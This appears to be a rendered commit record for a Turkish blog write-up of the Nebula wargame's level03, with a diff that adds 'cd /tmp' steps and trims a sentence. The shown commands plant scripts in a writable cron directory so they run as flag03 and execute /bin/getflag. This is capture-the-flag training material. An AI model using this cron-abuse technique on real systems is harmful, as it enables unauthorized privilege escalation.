

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-23-nebula-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 4762 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2018-02-23-nebula-writeup.md

```diff
--- a/_posts/2018-02-23-nebula-writeup.md
+++ b/_posts/2018-02-23-nebula-writeup.md
@@ -174,12 +174,14 @@ Cronun hangi kullanıcı için yazıldığını öğrenmeye çalışıyoruz.
 Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yazıyoruz. Cron çalıştıktan sonra  /tmp dizininde oluşan dosyanın sahibini kontrol ediyoruz.
 {% raw %}
      level03@nebula:/home/flag03/writable.d$ echo "touch /tmp/test" > test.sh
+     level03@nebula:/home/flag03/writable.d$ cd /tmp
      level03@nebula:/tmp$ ls -l
      -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
 {% endraw %}
-Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. Çalışıp çalışmadığını kontrol edebilmek için, çıktısını /tmp dizinine yönlendiriyoruz.
+Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız.
 {% raw %}
      level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
+     level03@nebula:/home/flag03/writable.d$ cd /tmp
      level03@nebula:/tmp$ ls
      output test
      level03@nebula:/tmp$ cat output
```
